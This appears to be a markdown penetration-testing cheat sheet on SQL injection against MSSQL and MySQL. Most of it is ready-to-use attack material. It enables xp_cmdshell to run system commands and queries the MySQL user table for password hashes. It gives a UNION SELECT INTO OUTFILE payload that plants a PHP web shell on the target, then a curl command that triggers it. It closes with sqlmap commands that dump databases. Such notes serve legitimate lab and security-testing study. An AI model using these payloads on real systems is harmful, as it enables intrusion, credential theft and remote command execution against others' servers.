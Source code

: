 # SQLi

## MSSQL 

### Basics

#### Connection
```
impacket-mssqlclient account:passwd@ip -windows-auth
```

#### Commands
```
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';
```

## MySQL

### Basics

#### Connection
```
$ mysql -u root -p'rootpassword' -h $DbServerIp -P $DbServerPort
```

#### Commands
```
> select version();
> select system_user();
> show databases;
> SELECT user, authentication_string FROM mysql.user WHERE user = 'usertohack';

```

### Attacks

Php injection in an `input` HTML field:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, ..., null INTO OUTFILE "/path/on/target/webshell.php" -- //
```
and trigger the webshell:
```
curl $TargetIp/path/on/target/webshell.php?cmd=ls
```

## Sqlmap

```
sqlmap -u http://ip/page.php?user=dummy -p user
sqlmap -u http://ip/page.php?user=dummy -p user --dump
```


